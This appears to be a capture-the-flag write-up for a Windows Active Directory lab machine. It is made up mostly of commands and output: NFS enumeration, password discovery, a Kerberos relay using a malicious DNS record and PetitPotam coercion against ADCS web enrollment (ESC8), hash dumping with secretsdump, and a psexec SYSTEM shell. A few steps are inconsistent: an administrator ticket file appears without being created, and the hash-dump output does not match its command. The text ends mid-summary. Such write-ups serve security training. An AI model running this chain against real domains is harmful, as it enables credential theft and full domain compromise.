






# VulnCicada - Complete Write-up

**Date:** 16 July 2026

**Machine Rank:** #1020

**Difficulty:** Medium

**OS:** Windows Server 2022

**Domain:** cicada.vl

**IP Address:** 10.129.234.48

---



## Executive Summary

VulnCicada is a medium-difficulty Windows Active Directory machine that demonstrates several real-world attack vectors commonly found in enterprise environments. The attack chain progresses through the following phases:

- **NFS Enumeration** → **Credential Discovery** — The machine exposes an NFS share (`/profiles`) with read access, allowing enumeration of user directories and discovery of a password (`Cicada123`) embedded in a PNG image (`marketing.png`) within Rosie.Powell's profile.

- **Password Spraying** → **Valid Credentials** — Using the discovered password, we perform a password spray across domain users and identify `Rosie.Powell` as a valid domain account with working credentials.

- **Kerberos Authentication** → **ADCS Enumeration** — After synchronizing time with the domain controller and obtaining a Kerberos ticket for Rosie.Powell, we enumerate Active Directory Certificate Services (ADCS) and identify an **ESC8** vulnerability (Web Enrollment enabled over HTTP).

- **Kerberos Relaying** → **Certificate Capture** — By adding a malicious DNS record with a marshaled target information string, we coerce the Domain Controller to authenticate to our SMB server using the PetitPotam technique. Certipy relay captures this authentication and forwards it to the ADCS web enrollment endpoint, obtaining a certificate for the Domain Controller's machine account.

- **Certificate Abuse** → **Machine Account Hash** — Using the captured certificate, we authenticate as the Domain Controller's machine account (`DC-JPQ225$`) and extract its NTLM hash.

- **NTDS Dump** → **Administrator Hash** — With the machine account's Kerberos ticket, we use `secretsdump.py` to extract the Administrator's NTLM hash.

- **Pass-the-Hash / Kerberos Auth** → **Complete Compromise** — Using the Administrator's ticket/hash, we authenticate and retrieve both the user and root flags.

---

## Machine Information

| Detail | Value |
|:--|:--|
| **Machine Name** | VulnCicada |
| **OS** | Windows Server 2022, Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `cicada.vl` |
| **Domain Controller** | `DC-JPQ225.cicada.vl` (`DC-JPQ225`) |

---

## Reconnaissance

### Initial Port Scanning

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first, scanning all ports at a high rate to locate open ports, and second, running service version detection and default script scans on the identified open ports.

```bash
hyena@hyena$ nmap -p- --open --min-rate 5000 -sS -f -Pn -n 10.129.234.48 -oG puertos
hyena@hyena$ nmap -sC -sV -p53,80,88,111,135,139,389,445,464,593,636,2049,3268,3269,3389,5985,9389,49664,49667,60710,60953,64669,64670,64694,64774 10.129.234.48
```


### Nmap Scan Results

```
# Nmap 7.94SVN scan initiated as: nmap -sC -sV -vvv -oA nmap/vulncicada 10.129.234.48
Nmap scan report for 10.129.234.48
Host is up, received syn-ack (0.42s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-16 10:31:32Z)
111/tcp   open  rpcbind?
| rpcinfo:
|   program version    port/proto  service
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100021  2,3,4       2049/tcp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-16T10:09:09
|_Not valid after:  2027-07-16T10:09:09
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-16T10:09:09
|_Not valid after:  2027-07-16T10:09:09
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  status        1 (RPC #100024)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-16T10:09:09
|_Not valid after:  2027-07-16T10:09:09
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-16T10:09:09
|_Not valid after:  2027-07-16T10:09:09
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2026-07-15T10:16:48
|_Not valid after:  2027-01-14T10:16:48
|_ssl-date: 2026-07-16T10:33:13+00:00; +5m36s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
60710/tcp open  msrpc         Microsoft Windows RPC
60953/tcp open  msrpc         Microsoft Windows RPC
64669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64670/tcp open  msrpc         Microsoft Windows RPC
64694/tcp open  msrpc         Microsoft Windows RPC
64774/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-07-16T10:32:36
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 5m35s, deviation: 0s, median: 5m35s
```

### Service Analysis

From the scan results, several key services confirm this is a Windows Active Directory Domain Controller:

| Port | Service | Significance |
|------|---------|--------------|
| 53 | DNS | Domain Name Service for domain resolution |
| 88 | Kerberos | Primary authentication protocol for AD |
| 389/636 | LDAP/LDAPS | Directory access for querying AD objects |
| 445 | SMB | File sharing and remote administration |
| 464 | kpasswd5 | Kerberos password change service |
| 2049 | NFS | Network File System (unusual for Windows) |
| 3268/3269 | Global Catalog | Domain-wide directory searches |
| 3389 | RDP | Remote Desktop access |
| 5985 | WinRM | Windows Remote Management (PowerShell remoting) |

The service information reveals:

- **Domain**: `cicada.vl`
- **Hostname**: `DC-JPQ225.cicada.vl`
- **OS**: Windows Server 2022 (Build 20348)
- **SMB Signing**: Enabled and required (mitigates NTLM relay attacks)

### DNS Configuration

I add the domain to `/etc/hosts` for proper name resolution during enumeration:

```bash
hyena@hyena$ echo "10.129.234.48 cicada.vl DC-JPQ225.cicada.vl" | sudo tee -a /etc/hosts
```

This ensures that DNS lookups for the domain resolve to the target IP, enabling proper Kerberos authentication and service enumeration.

---

## NFS Share Enumeration

### What is NFS?

Network File System (NFS) is a protocol that allows remote file sharing between Unix/Linux systems. Its presence on a Windows machine (port 2049) is unusual and suggests that Windows Services for NFS is installed. This can be a valuable attack vector because NFS shares often have misconfigured permissions, allowing anonymous read/write access to sensitive files.

### NFS Share Discovery

During enumeration of the publicly available services, I discover an NFS export accessible with read permissions:

```bash
hyena@hyena$ showmount -e 10.129.234.48
Export list for 10.129.234.48:
/profiles (everyone)
```

**Why We're Running This Command Now:**

After discovering port 2049 (NFS) was open during the Nmap scan, we use `showmount` to enumerate available exports. The `-e` flag lists all exported directories. Finding `/profiles` exported to "everyone" indicates that the share is accessible without authentication.

### Mounting the NFS Share

```bash
hyena@hyena$ sudo mkdir -p /mnt/cicada_nfs
hyena@hyena$ sudo mount -t nfs -o nolock,vers=3 10.129.234.48:/profiles /mnt/cicada_nfs
hyena@hyena$ ls -la /mnt/cicada_nfs
total 14
drwxrwxrwx 2 4294967294 4294967294 4096 Jun  3  2025 .
drwxr-xr-x 7 root       root       4096 Jul 16 10:37 ..
drwxrwxrwx 2 4294967294 4294967294   64 Sep 15  2024 Administrator
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Daniel.Marshall
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Debra.Wright
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Jane.Carter
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Jordan.Francis
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Joyce.Andrews
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Katie.Ward
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Megan.Simpson
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Richard.Gibbons
drwxrwxrwx 2 4294967294 4294967294   64 Sep 15  2024 Rosie.Powell
drwxrwxrwx 2 4294967294 4294967294   64 Sep 13  2024 Shirley.West
```

### Mount Command Breakdown

| Part | What It Does |
|------|--------------|
| `sudo mkdir -p /mnt/cicada_nfs` | Create a mount point directory |
| `sudo mount -t nfs` | Mount an NFS filesystem |
| `-o nolock,vers=3` | Disable file locking and use NFSv3 for compatibility |
| `10.129.234.48:/profiles` | Remote NFS export |
| `/mnt/cicada_nfs` | Local mount point |

### What We Found

The NFS share contains several user directories:

- **Administrator**
- Daniel.Marshall
- Debra.Wright
- Jane.Carter
- Jordan.Francis
- Joyce.Andrews
- Katie.Ward
- Megan.Simpson
- Richard.Gibbons
- **Rosie.Powell**
- Shirley.West

**Significance:** These are valid domain usernames that we can use for password spraying and authentication attempts.

### Exploring User Directories

I explore each user directory to identify interesting files:

```bash
hyena@hyena$ cd /mnt/cicada_nfs/Rosie.Powell
hyena@hyena$ ls -la
total 1797
drwxrwxrwx 2 4294967294 4294967294      64 Sep 15  2024 .
drwxrwxrwx 2 4294967294 4294967294    4096 Jul 16  2026 ..
drwx------ 2 4294967294 4294967294      64 Sep 15  2024 Documents
-rwx------ 1 4294967294 4294967294 1832505 Sep 13  2024 marketing.png
```

### Marketing.png - Password Discovery

The `marketing.png` image in Rosie.Powell's directory is an image file that, upon inspection, contains a visible sticky note on a computer screen with the password:

```
Cicada123
```


**Significance:** This provides us with a valid domain password for Rosie.Powell.

I also check the Administrator's directory:

```bash
hyena@hyena$ cd /mnt/cicada_nfs/Administrator
hyena@hyena$ ls -la
total 1461
drwxrwxrwx 2 4294967294 4294967294      64 Sep 15  2024 .
drwxrwxrwx 2 4294967294 4294967294    4096 Jun  3  2025 ..
drwx------ 2 4294967294 4294967294      64 Sep 15  2024 Documents
-rwxrwxrwx 1 4294967294 4294967294 1490573 Sep 13  2024 vacation.png
```

The `vacation.png` image in the Administrator's directory shows a man with a parachute and a laptop. This likely indicates something is "in the cloud" or relates to "dropping" something.

---

## SMB Share Enumeration

### Anonymous SMB Access

I also check SMB shares for anonymous access:

```bash
hyena@hyena$ nxc smb DC-JPQ225.cicada.vl -u 'test' -p '' --shares
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Windows Server 2022 Build 20348 x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\test: (Guest)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Enumerated shares
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        Share           Permissions    Remark
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        -----           -----------    ------
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        ADMIN$                         Remote Admin
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        C$                             Default share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        CertEnroll      READ           Active Directory Certificate Services share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        IPC$            READ           Remote IPC
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        NETLOGON        READ           Logon server share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        profiles$       READ,WRITE
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        SYSVOL          READ           Logon server share
```



### Critical Findings

| Share | Permissions | Significance |
|-------|-------------|--------------|
| **CertEnroll** | READ | **ADCS is installed!** |
| **profiles$** | READ, WRITE | Same as NFS mount |
| **SYSVOL** | READ | Domain policies and scripts |

**Why This Matters:** The presence of the `CertEnroll` share indicates that Active Directory Certificate Services (ADCS) is installed on this domain controller. This is a critical finding because ADCS misconfigurations (ESC1-ESC8) can lead to domain compromise.

---

## Credential Validation & Kerberos Setup

### Testing Rosie.Powell's Credentials

I test the discovered credentials using NetExec:

```bash
hyena@hyena$ nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Windows Server 2022 Build 20348 x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [-] cicada.vl\Rosie.Powell:Cicada123 KRB_AP_ERR_SKEW
```

### Fixing Clock Skew

The `KRB_AP_ERR_SKEW` error indicates clock skew between our machine and the Domain Controller. Kerberos requires the clocks to be within 5 minutes of each other.

```bash
hyena@hyena$ sudo ntpdate -u cicada.vl
2026-07-16 12:15:04.410052 (+0000) +0.199051 +/- 0.193537 cicada.vl 10.129.234.48 s1 no-leap
```

### Obtaining a Kerberos Ticket

After syncing time, I obtain a Kerberos ticket for Rosie.Powell:

```bash
hyena@hyena$ kinit Rosie.Powell@CICADA.VL
Password for Rosie.Powell@CICADA.VL: Cicada123

hyena@hyena$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: Rosie.Powell@CICADA.VL

Valid starting       Expires              Service principal
07/16/2026 11:31:14  07/16/2026 21:31:14  krbtgt/CICADA.VL@CICADA.VL
        renew until 07/23/2026 11:31:10
```

### Testing with Kerberos

Now I test the credentials again with the `-k` flag:

```bash
hyena@hyena$ nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Windows Server 2022 Build 20348 x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123
```

**Success!** Rosie.Powell's credentials are valid.

---

## ADCS Enumeration

### Why We're Doing This

The `CertEnroll` share indicates ADCS is installed. ADCS misconfigurations are a common path to domain compromise. I use Certipy to enumerate certificate templates and identify vulnerabilities.

### Certipy Find Command

```bash
hyena@hyena$ export KRB5CCNAME=/tmp/krb5cc_1000
hyena@hyena$ ~/certipy-env/bin/certipy find -k -target DC-JPQ225.cicada.vl -dc-ip 10.129.234.48
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'cicada-DC-JPQ225-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'cicada-DC-JPQ225-CA'
[*] Checking web enrollment for CA 'cicada-DC-JPQ225-CA' @ 'DC-JPQ225.cicada.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260716113349_Certipy.txt'
[*] Wrote text output to '20260716113349_Certipy.txt'
[*] Saving JSON output to '20260716113349_Certipy.json'
[*] Wrote JSON output to '20260716113349_Certipy.json'
```



### Critical Finding: ESC8 Vulnerability

Reviewing the Certipy output reveals:

```
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
```

### Understanding ESC8

**What is ESC8?** ESC8 is a vulnerability where ADCS web enrollment is enabled over HTTP (not HTTPS). This allows authentication to be relayed to the web enrollment endpoint, enabling an attacker to request certificates for arbitrary users, including the Domain Controller's machine account.

**Why This Matters:** With ESC8, we can:
1. Coerce the Domain Controller to authenticate to our SMB server
2. Relay that authentication to the HTTP web enrollment endpoint
3. Request a certificate for the Domain Controller
4. Use that certificate to authenticate as the machine account
5. Dump domain hashes with the machine account's privileges

---

## Kerberos Relay Attack (ESC8)

### Understanding the Attack

The Kerberos relay attack exploits a DNS manipulation trick to coerce a Domain Controller to authenticate to our SMB server. The attack uses a "marshaled target information" string appended to a DNS record name to trick Windows into sending a Kerberos AP_REQ to us instead of the intended target.

### The Malicious DNS Record

I add a DNS record that points to my attacker machine (10.10.14.7):

```bash
hyena@hyena$ bloodyAD -u Rosie.Powell -p Cicada123 -d cicada.vl -k -H DC-JPQ225.cicada.vl add dnsRecord "DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" 10.10.14.7
Clock skew detected. Adjusting local time by 0:05:36.629629. Retrying operation.
[+] DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA has been successfully updated
```

### Verifying the DNS Record

```bash
hyena@hyena$ nslookup DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.cicada.vl 10.129.234.48
Server:         10.129.234.48
Address:        10.129.234.48#53

Name:   DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.cicada.vl
Address: 10.10.14.7
```

### Starting the Certificate Relay

```bash
hyena@hyena$ cd ~/Desktop/VulnCicada
hyena@hyena$ ~/certipy-env/bin/certipy relay -target 'http://DC-JPQ225.cicada.vl/' -template DomainController
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```

### Coercing the Domain Controller

```bash
hyena@hyena$ nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER="DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" METHOD=PetitPotam
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Windows Server 2022 Build 20348 x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, efsrpc\EfsRpcAddUsersToFile
```

### Certificate Capture



The certipy relay output shows successful certificate capture:

```
[*] (SMB): Received connection from 10.129.234.48, attacking target http://DC-JPQ225.cicada.vl
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] (SMB): Authenticating connection from /@10.129.234.48 against http://DC-JPQ225.cicada.vl SUCCEED [1]
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'DC-JPQ225.cicada.vl'
[*] Certificate object SID is 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Saving certificate and private key to 'dc-jpq225.pfx'
[*] Wrote certificate and private key to 'dc-jpq225.pfx'
```

---

## Machine Account Hash Extraction

### Extracting the Machine Account Hash

```bash
hyena@hyena$ certipy auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*] SAN DNS Host Name: 'DC-JPQ225.cicada.vl'
[*] Security Extension SID: 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Using principal: 'dc-jpq225$@cicada.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc-jpq225.ccache'
[*] Wrote credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl':
aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3
```

### Why This Works

The machine account (`DC-JPQ225$`) has extensive privileges in the domain. By obtaining a certificate for this account and extracting its hash, we can authenticate as the machine account and dump domain hashes.

---

## Administrator Hash Extraction

### Dumping the Administrator Hash

```bash
hyena@hyena$ export KRB5CCNAME=$(pwd)/dc-jpq225.ccache
hyena@hyena$ secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@DC-JPQ225.cicada.vl -just-dc-user administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf2ae7dda167e9fcab56664d798ca89f0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
```



### The Administrator Hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87
```

The NT hash is: `85a0da53871a9d56b6cd05deda3a5e87`

---

## Authenticating as Administrator

### Using the Administrator Ticket/Hash

```bash
hyena@hyena$ export KRB5CCNAME=/home/hyena/Desktop/VulnCicada/administrator.ccache
hyena@hyena$ psexec.py -k -no-pass cicada.vl/administrator@DC-JPQ225.cicada.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on DC-JPQ225.cicada.vl.....
[*] Found writable share ADMIN$
[*] Uploading file szhBQHrq.exe
[*] Opening SVCManager on DC-JPQ225.cicada.vl.....
[*] Creating service QkfO on DC-JPQ225.cicada.vl.....
[*] Starting service QkfO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```



### Retrieving the Flags

```bash
C:\Windows> type C:\Users\Administrator\Desktop\user.txt
1f984979e6aadfc6cb44c29baf4485f5

C:\Windows> type C:\Users\Administrator\Desktop\root.txt
7916474aadaa81b61e0d47cabbf0ed70
```

---

## Final Results

| Flag | Value |
|:--|:--|
| **User Flag** | `1f984979e6aadfc6cb44c29baf4485f5` |
| **Root Flag** | `7916474aadaa81b61e0d47cabbf0ed70` |

---

## Attack Chain Summary

```
Nmap Scan → Service Discovery → Domain Identification
    ↓
NFS Enumeration → /profiles share found
    ↓
marketing.png → Password: Cicada123
    ↓
Time Sync → Kerberos Ticket → Rosie.Powell Credentials
    ↓
SMB Share Enumeration → CertEnroll share → ADCS Installed
    ↓
Certipy Find → ESC8 Vulnerability (Web Enrollment over HTTP)
    ↓
DNS Record Manipulation → Malicious DNS Record Added
    ↓
certipy relay → Listened on port 445
    ↓
PetitPotam Coercion → DC forced to authenticate
    ↓
Certificate Capture → dc-jpq225.pfx
    ↓
